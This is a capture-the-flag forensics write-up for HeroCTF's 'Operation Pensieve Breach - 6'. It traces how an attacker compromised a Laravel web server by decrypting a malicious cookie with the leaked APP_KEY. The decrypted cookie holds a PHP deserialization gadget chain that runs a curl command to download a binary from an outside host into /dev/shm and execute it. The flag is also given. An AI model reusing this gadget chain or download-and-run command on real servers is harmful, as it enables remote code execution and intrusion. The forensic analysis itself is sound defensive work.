



# Operation Pensieve Breach - 6

### Category

Forensics

### Difficulty

Medium

### Tags

- linux

### Author

xThaz

### Description

You almost found everything that happened during that case.
Throughout the investigation you noticed connections originating from the web server `spellbook.hogwarts.local`.
Since malicious files were downloaded from this server that is ours, investigate to find what happened.
Please find the following information about how the attacker compromised the server:
- Secret used by the attacker to exploit the application.
- Absolute path of the binary used for post-exploitation.

The findings have to be separated by a ";".

- [spellbook_network_capture.pcap](https://heroctf.fr-par-1.linodeobjects.com/spellbook_network_capture.pcap)
- [spellbook_var.7z](https://heroctf.fr-par-1.linodeobjects.com/spellbook_var.7z)

Here is an example flag format:

`Hero{TheSecret;/bin/bash}`

### Requirements

- "Operation Pensieve Breach - 1"
- "Operation Pensieve Breach - 2"
- "Operation Pensieve Breach - 3"
- "Operation Pensieve Breach - 4"
- "Operation Pensieve Breach - 5"

### Write Up

#### Where to go ?

Looking at network capture's protocol hierarchy shows interesting HTTP traffic.
A quick win for web analysis is to look at User-Agent.

```bash
$ tshark -r web01_network_capture.pcap -Y "http.request" -T fields -e http.user_agent | sort | uniq -c | sort -nr
    
    112 Chromium/126.0.6478.183 Windows
     77 Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:145.0) Gecko/20100101 Firefox/145.0
      3 curl/7.81.0
```

The used User-Agent is the same except a single one that was made using `curl`.
What was the request made using that command ?

```bash
$ tshark -r web01_network_capture.pcap -Y 'http.request && http.user_agent == "curl/7.81.0"' -T fields -e frame.number -e http.request.method -e http.host -e http.request.uri

50      HEAD    192.168.1.37:8000       /
171     GET     192.168.1.37:8000       /
1440    GET     192.168.1.37:8000       /
```

A simple GET on /.

```bash
$ tshark -r web01_network_capture.pcap -Y "frame.number == 1440 || frame.number == 171 && http.request" -T fields -e http.request.full_uri

http://192.168.1.37:8000/
http://192.168.1.37:8000/
```

There is no HTTP parameter.
Is this request special ? Let's compare the length of the requests with others.



The request made using the curl request is 100 bytes larger than the other largest `GET /`.
But why ?
Since there is no parameter, let's compare what field is larger.

```bash
$ tshark -r web01_network_capture.pcap -Y "frame.number == 1440 && http.request" -T fields -e http.request.uri -e http.user_agent -e http.cookie | awk '{for(i=1;i<=NF;i++) print i, length($i), $i}'
[...]
3 360 secretic_session=eyJpdiI6IkU3aGs3aGYyMFBTd3VPcDFqWi9wRkE9PSIsInZhbHVlIjoiKzBQK2kxem41enF0ZDNkOXFZL3FabUhkQlRMajhCUDVzU09PQXVaOVVOUjV3cEs0Mzk1TEoyN3VyM09uZHI1Uytzanp6SWlnYmRKVjF1MlFYTWJEVW9rdDMvZVpOQ0p3eUVXaWhXZ2Y1YWNwV2YyVmphN2hWUHU5WXp3Y0VERUIiLCJtYWMiOiIxNGZkMWZiZTViMzRmOGNmMGI0NWVmMDFhNWQ3MWY0ZjE1ZDAwYmE0ZDUxYThjNGQ2OWU5NGFiMWZlOTQyZmFkIiwidGFnIjoiIn0%3D;
4 1533 dwULUYdxyze7n8i8qU5UKE8WnVHoa4mIrYwjwcWo=eyJpdiI6ICJFNzJQWWdpUE9OcE81S3lIYmdISXRRPT0iLCAidmFsdWUiOiAiamxjWkpkckZDRHBaZXl6TFR5ZzJnSTRWY3ZDVGhyc3JVVjUxMTBsK1hIMVdRbmsvbVFEVjd1TFBuZ0c0c1VxNU84czFMd2hFZGV4MDduTytxOXJlSENDWmpOeFdyelIwN1NKS3BNQnFWZXZlc1NYeFlLemxOcVlKeHZOQmZKby9jTzBheGZaWHRBSGw5WWNoUmIxSEtYRDNpTEg1Y1l1M3IxRGdHZTFkaVBnY3hSenEzVjA4ZGVBL3hFUU56bS9sd2l2d0FHMG9zaTd0N0FCcHhpWjhkQVAxclZjRER4NW92SmllYU03VVliSXZLTjVGRWRFb1dZbHdGaWJBM1c2NENUcHBGSjNHeUF2aWdXdSs2b2M5d3djWHJ3T3c4RUp6SmlxZ2NhRkI4YXhFNmQ0Tk9pKzdCZU5zdUp3b2RRNkRzQ1c2TE9KSUpvYXU5Q2plUm5kKzJFSUtxWDNvTmpsMWw4YlVjZHFDNVp6eFFiZm90cWU4TjhybCtRaUdpemdVTWhuTDM5VjBsazRVRGcxdFhFTXVDeHdTT0VkZW1ndHpITXBCb0tSelM0RGlnc2dPanYyMC9TL1M1djNZcFdlc1dzWW5QYmRGOWRXeHhDaDNMdFNBVGxIWGV4ZnNnQUdka20yRDY2b2tSMEJTQmNvUllMTWthSHdRN09aVWo2YVJJVXRFMjJ1S1A3RytiWjEyNU9aYWdsSjFmTHFIT0tSbHVJaWJwaUJJWjEyRUFZcFJvbmlrN2tqNUgvcEoreHdUY3pPTi8zYVB0dG41MjljS3pJWktRV0NRdUJMUHpXcnNhUUZLbUU5M3lrc2RTUHgzQXd5cjhFcUNoMk1aWEhPOEEwNVFQUXo1K0l4RU00VlpxZ1lvaWFIMHByYmlPZlVVSjFLVmpzekhRYkMrTUlrTDJMK1pkZlVMQWpiS0RRb2dJMUd2MnJWQU56eEU2ajhhZUE2L1l2UWdVZW1lWFpuSzZCYTkxV09MUzA2VVN3bUs4dzJqb3R5TVZ6ejdWR1hsMkVaTEMwNEU1VEJRMmhMOTVqQm1xV2h5YkpzbThMZWdadW5YcS9CNkROT1VZTjFLYXBQb0ZzVFJtVTloR2ZzS21lNnE2QlhkWloxTVhMUDRDeW1DbTFDb01JR29ZWFBISURSNnBLQVhmTjdrTEY1WkN4V1RRSkJDU0E4eWlTS1p1MFNaTytwN2pLbDN6aTZaZDBrZmkySzBxeEZjUFhoaHdiZ0NQUzltVklINUd4TlB6WEJVZjlQb3hoLzJWS1BxYjFWNjBueE04TjRXVFMzdk8yS01HUT09IiwgIm1hYyI6ICJjZDZhOWIwM2YxMTBjYjEyYzdlNGRkNDk1OTNmNGU0YTMxZDhmNjZjMGExMmYxZDg3MmU3ZjA0NzEyZjk2ZmMwIiwgInRhZyI6ICIifQ==

$ tshark -r web01_network_capture.pcap -Y "frame.number == 946 && http.request" -T fields -e http.request.uri -e http.user_agent -e http.cookie | awk '{for(i=1;i<=NF;i++) print i, length($i), $i}'
[...]
12 360 secretic_session=eyJpdiI6Ind5S2JRdFVqQWF0cmsyeDlsbWNuMFE9PSIsInZhbHVlIjoidkhMYlNBNjA2Zk43elZzOS9WaFhZU0c1a3E5SU96cnJpR3dtRHE2UXhyZllLQVBINUtZdkphYzVVdmpSczNWclpLOXZYdGIxVFo4cy9lSGlQSkdLVDlXVndvcURQVTJPSXllMmRndWJtV0JSZTB3NkVVVE11Y3dySmd4VXBmZHciLCJtYWMiOiJkY2E0YWQ2NWE0NDgwYWExOTIyZjM1MjEzZjU5NDQyYzU3NmZjOTgyYzE5NGM4ZDg2NzNhNzEwMDA0NTUxZTYyIiwidGFnIjoiIn0%3D;
13 721 cTO6aTYRj3chG4TvdPCNSqtGwH5OaonbCwuP5rs5=eyJpdiI6IkZvT0xtZ2dZcDJDRmcvR1EvS0xKREE9PSIsInZhbHVlIjoicmt0L3ViSUhGNDZpbnNuazRQOEFPWENHV3NDamU4RUd1UWxjQ08wOCtzWERoUHhwUnVLNFVUekNFTHNUdnJibG1tTUhiL3M5QzkvdnBZVndPa1A5S0lNQy9zTUJYbkNVdTBjQXNEbm9GcXY4cEtxcmNNVHJ5ZElnWHJhczA3UHRlL0EyNmN5ZXc1RDlMWnI3Y3ZObDJ4WGFTZ0RUeWRpZjZUUUZWMDVTZy9xYlZxZzh3N1didlB3VkVWdTRTVzRrZ0h2dUtzY29YVE5uQjI4ZVNJWHA4c3BYVERBUDFTQkhWYzV6QXhYVUVtRmZIUlp4L0lycXE2RGVTWW12dkxZRENDT2RybUpOV1RDL0NvU3E3WkVlRUhYMmpTeUtEL1Q4c1AyR1dORmtDeDF3b1ZSM01weU9OTUpFbnRnMDVkQXQ4a1d6b3ZqZVdkQzFpN1pGL1VzVlpVRDBnRXdHUHpTVnBOekFnY0ZNOUczbGI5QUtUaFNsTk93dGJ3NFVGRjhGIiwibWFjIjoiMWUwMDczYzYxZmQ1ODRmOWE3MGFhODVhZDUwNjkxNDlmMWZjYTllMmVlNzEyOTMzZDRjZDE1MDcyNjkwNmJiZSIsInRhZyI6IiJ9
```

Frame 1440, request made with curl, has a second cookie that is almost twice as big as normal request.
This is quite awkward as cookies should have the same length.

Before continuing, what is that application ?
There is a `.git` folder, using the config, it is possible to retrieve the GitHub repository.

```bash
$ cat var/www/secretnotes/.git/config

[...]
[remote "origin"]
    url = https://github.com/gomzyakov/secretnotes.git
    fetch = +refs/heads/*:refs/remotes/origin/*
```



The GitHub tells us more about the application and what it does.
The application is based on laravel.
It's time to google the unknown: "laravel cookies exploitation".



There is some stuff that looks interesting:
- https://www.synacktiv.com/en/publications/laravel-appkey-leakage-analysis
- https://github.com/synacktiv/laravel-crypto-killer

TL;DR;
It tells us that knowing the `APP_KEY` (either by exploiting a file read, or with a default value) used by the application can be abused to achieve remote code execution.
All of this because Laravel encrypts the cookies using the `APP_KEY`. Thus, deserialization can be exploited.

#### Decrypt the payload

The goal here will be to decrypt the cookies to inspect them and see if there is nasty magic happening.

First, retrieve the `APP_KEY` value from the web server configuration.

```bash
$ grep "APP_KEY" var/www/secretnotes/.env

APP_KEY=base64:zHJvDAIBtVN83kzkjqUZNv42w9gjd8FZZllqdqn0EBQ=
```

Now, using the exploit present inside Synacktiv's GitHub, it is possible to decrypt the cookie using the `APP_KEY`.

```bash
$ git clone https://github.com/synacktiv/laravel-crypto-killer
$ cd laravel-crypto-killer
$ virtualenv venv
$ source venv/bin/activate
$ pip3 install -r requirements.txt
$ python3 laravel_crypto_killer.py decrypt -k base64:zHJvDAIBtVN83kzkjqUZNv42w9gjd8FZZllqdqn0EBQ= -v 'eyJpdiI6ICJFNzJQWWdpUE9OcE81S3lIYmdISXRRPT0iLCAidmFsdWUiOiAiamxjWkpkckZDRHBaZXl6TFR5ZzJnSTRWY3ZDVGhyc3JVVjUxMTBsK1hIMVdRbmsvbVFEVjd1TFBuZ0c0c1VxNU84czFMd2hFZGV4MDduTytxOXJlSENDWmpOeFdyelIwN1NKS3BNQnFWZXZlc1NYeFlLemxOcVlKeHZOQmZKby9jTzBheGZaWHRBSGw5WWNoUmIxSEtYRDNpTEg1Y1l1M3IxRGdHZTFkaVBnY3hSenEzVjA4ZGVBL3hFUU56bS9sd2l2d0FHMG9zaTd0N0FCcHhpWjhkQVAxclZjRER4NW92SmllYU03VVliSXZLTjVGRWRFb1dZbHdGaWJBM1c2NENUcHBGSjNHeUF2aWdXdSs2b2M5d3djWHJ3T3c4RUp6SmlxZ2NhRkI4YXhFNmQ0Tk9pKzdCZU5zdUp3b2RRNkRzQ1c2TE9KSUpvYXU5Q2plUm5kKzJFSUtxWDNvTmpsMWw4YlVjZHFDNVp6eFFiZm90cWU4TjhybCtRaUdpemdVTWhuTDM5VjBsazRVRGcxdFhFTXVDeHdTT0VkZW1ndHpITXBCb0tSelM0RGlnc2dPanYyMC9TL1M1djNZcFdlc1dzWW5QYmRGOWRXeHhDaDNMdFNBVGxIWGV4ZnNnQUdka20yRDY2b2tSMEJTQmNvUllMTWthSHdRN09aVWo2YVJJVXRFMjJ1S1A3RytiWjEyNU9aYWdsSjFmTHFIT0tSbHVJaWJwaUJJWjEyRUFZcFJvbmlrN2tqNUgvcEoreHdUY3pPTi8zYVB0dG41MjljS3pJWktRV0NRdUJMUHpXcnNhUUZLbUU5M3lrc2RTUHgzQXd5cjhFcUNoMk1aWEhPOEEwNVFQUXo1K0l4RU00VlpxZ1lvaWFIMHByYmlPZlVVSjFLVmpzekhRYkMrTUlrTDJMK1pkZlVMQWpiS0RRb2dJMUd2MnJWQU56eEU2ajhhZUE2L1l2UWdVZW1lWFpuSzZCYTkxV09MUzA2VVN3bUs4dzJqb3R5TVZ6ejdWR1hsMkVaTEMwNEU1VEJRMmhMOTVqQm1xV2h5YkpzbThMZWdadW5YcS9CNkROT1VZTjFLYXBQb0ZzVFJtVTloR2ZzS21lNnE2QlhkWloxTVhMUDRDeW1DbTFDb01JR29ZWFBISURSNnBLQVhmTjdrTEY1WkN4V1RRSkJDU0E4eWlTS1p1MFNaTytwN2pLbDN6aTZaZDBrZmkySzBxeEZjUFhoaHdiZ0NQUzltVklINUd4TlB6WEJVZjlQb3hoLzJWS1BxYjFWNjBueE04TjRXVFMzdk8yS01HUT09IiwgIm1hYyI6ICJjZDZhOWIwM2YxMTBjYjEyYzdlNGRkNDk1OTNmNGU0YTMxZDhmNjZjMGExMmYxZDg3MmU3ZjA0NzEyZjk2ZmMwIiwgInRhZyI6ICIifQ=='

5d4711437c28116d0c311af63207e19023b453c8|{"data":"O:40:\"Illuminate\\Broadcasting\\PendingBroadcast\":1:{s:9:\"\u0000*\u0000events\";O:29:\"Illuminate\\Queue\\QueueManager\":2:{s:6:\"\u0000*\u0000app\";a:1:{s:6:\"config\";a:2:{s:13:\"queue.default\";s:3:\"key\";s:21:\"queue.connections.key\";a:1:{s:6:\"driver\";s:4:\"func\";}}}s:13:\"\u0000*\u0000connectors\";a:1:{s:4:\"func\";a:2:{i:0;O:28:\"Illuminate\\Auth\\RequestGuard\":3:{s:11:\"\u0000*\u0000callback\";s:14:\"call_user_func\";s:10:\"\u0000*\u0000request\";s:6:\"system\";s:11:\"\u0000*\u0000provider\";s:102:\"curl -k https://xthaz.fr/kinit -o /dev/shm/kinit && chmod +x /dev/shm/kinit && /dev/shm/kinit & disown\";}i:1;s:4:\"user\";}}}}","expires":9999999999}
```

Wait a minute, what is that ?

```bash
$ curl -k https://xthaz.fr/kinit -o /dev/shm/kinit && chmod +x /dev/shm/kinit && /dev/shm/kinit & disown
```

This command is downloading a binary named `kinit` and places it into the shared memory partition.
Gives it execution permission.
Finally it forks the process so that when the web request times out, the subprocess runs on its own.

### Flag

Hero{base64:zHJvDAIBtVN83kzkjqUZNv42w9gjd8FZZllqdqn0EBQ=;/dev/shm/kinit}